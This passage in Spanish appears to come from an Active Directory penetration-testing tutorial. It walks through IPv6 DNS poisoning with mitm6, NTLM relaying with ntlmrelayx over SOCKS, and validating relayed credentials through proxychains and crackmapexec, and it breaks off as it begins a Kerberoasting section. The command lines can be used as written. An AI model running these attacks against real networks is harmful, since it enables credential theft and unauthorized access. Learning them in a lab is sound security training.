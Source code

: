 Envenenamos la red:

```bash
mitm6 -d <dominio>
```
Ahora para que nos pille esa comunicación entraremos en modo interactivo y utilizando socks para posteriormente si es privilegiado ejecutar comandos a través de proxychains

```bash
ntlmrelayx.py -6 -wh kali-IP -t smb://192.168.94.138 -socks -debug -smb2support
```

En el modo interactivo podemos limpiar la pantalla con "CTRL + L". Para poder ver los usuarios que interceptó debemos de ejecutar el comando `socks`

<img src="/assets/images/Active-Directory/ipv6.png">

Vemos que pone **TRUE** por lo tanto podemos configurar proxychains para redirigir esa autenticación que al ser privilegiada podamos ejecutar comandos. Para configurar proxychains nos vamos a editar el fichero `/etc/proxychains.conf`

<img src="/assets/images/Active-Directory/proxy.png">

Una vez editado para poder ejecutar comandos simplemente vamos a validar que la autenticación es válida para ello ejecutamos el siguiente comando:

```bash
proxychains cme smb IP -u 'mvazquez' -p 'nonecesitassaberla' -d 's4vicorp' 2>/dev/null
```

### KERBEROASTING

Para este ataque se utiliza para conocer es necesario de conocer credenciales válidas. Consiste en conocer usuarios que sean kerberoasteables para obtener su hash TGS y poder crackearlo
